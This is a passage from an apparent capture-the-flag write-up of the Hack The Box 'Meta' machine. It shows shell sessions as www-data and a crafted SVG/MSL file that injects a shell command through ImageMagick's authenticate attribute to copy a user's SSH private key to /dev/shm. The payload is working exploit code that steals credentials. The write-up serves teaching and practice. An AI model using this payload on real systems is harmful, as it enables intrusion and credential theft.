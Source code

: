 Then, I can soon find `poc` file in `/dev/shm` directory.

```bash
www-data@meta:/var/www/dev01.artcorp.htb/convert_images$ ls /dev/shm
poc


www-data@meta:/var/www/dev01.artcorp.htb/convert_images$ cat /dev/shm/poc
uid=1000(thomas) gid=1000(thomas) groups=1000(thomas)
```

It seems that the user `thomas` has RSA private key in its home directory.

```bash
www-data@meta:/var/www/dev01.artcorp.htb/convert_images$ ls -al /home/thomas

total 32
drwxr-xr-x 4 thomas thomas 4096 Jan 17  2022 .
drwxr-xr-x 3 root   root   4096 Aug 29  2021 ..
lrwxrwxrwx 1 root   root      9 Aug 29  2021 .bash_history -> /dev/null
-rw-r--r-- 1 thomas thomas  220 Aug 29  2021 .bash_logout
-rw-r--r-- 1 thomas thomas 3526 Aug 29  2021 .bashrc
drwxr-xr-x 3 thomas thomas 4096 Aug 30  2021 .config
-rw-r--r-- 1 thomas thomas  807 Aug 29  2021 .profile
drwx------ 2 thomas thomas 4096 Jan  4  2022 .ssh
-rw-r----- 1 root   thomas   33 Mar 11 11:10 user.txt
```

Since the user `thomas` seems to have SSH RSA key setting in its home directory, let's save the key using the payload.

```xml
┌──(kali㉿kali)-[~/htb/meta]
└─$ cat exploit.svg
<image authenticate='ff" `echo $(cat /home/thomas/.ssh/id_rsa)> /dev/shm/poc`;"'>
  <read filename="pdf:/etc/passwd"/>
  <get width="base-width" height="base-height" />
  <resize geometry="400x400" />
  <write filename="test.png" />
  <svg width="700" height="700" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink">       
  <image xlink:href="msl:poc.svg" height="100" width="100"/>
  </svg>
</image>
```

Then, I can fetch the RSA private key.

```bash
www-data@meta:/var/www/dev01.artcorp.htb/convert_images$ cat /dev/shm/poc
cat /dev/shm/poc
```